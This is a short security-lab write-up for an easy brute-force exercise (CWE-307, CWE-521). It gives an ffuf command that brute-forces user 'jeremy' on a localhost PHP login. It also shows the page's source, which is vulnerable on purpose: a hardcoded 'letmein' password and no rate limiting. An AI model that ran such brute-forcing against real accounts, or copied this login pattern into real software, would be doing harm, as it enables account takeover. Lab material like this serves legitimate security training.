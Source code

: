 --------
**Difficulty**: EASY
**CWE-lists**:
- [[CWE-307(improper-restriction-of-excesive-authz-attempts)]]
- [[CWE-521(WEAK-password-requirements)]]
-------
A website login could be easily tested for rate limit by bruteforcing, if there's no rate limit we could bruteforce for a user. In this case we need to login in the jeremy's account:
```sh
ffuf -u http://localhost/labs/a0x01.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=jeremy&password=FUZZ" -w /usr/share/seclists/Fuzzing/fuzz-Bo0oM.txt -ac -v -c
```

the source code it's probably the simplest PHP login
```php
<?php
require '../db.php';

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $username = $_POST["username"];
    $password = $_POST["password"];
    $status = 0;

    if ($username === "jeremy" && $password === "letmein") {
        $message = "You have successfully logged in!";
        $status = 1;
    } else {
        $message = "Your username or password was incorrect!";
        $status = 2;
    }
}

?>
```
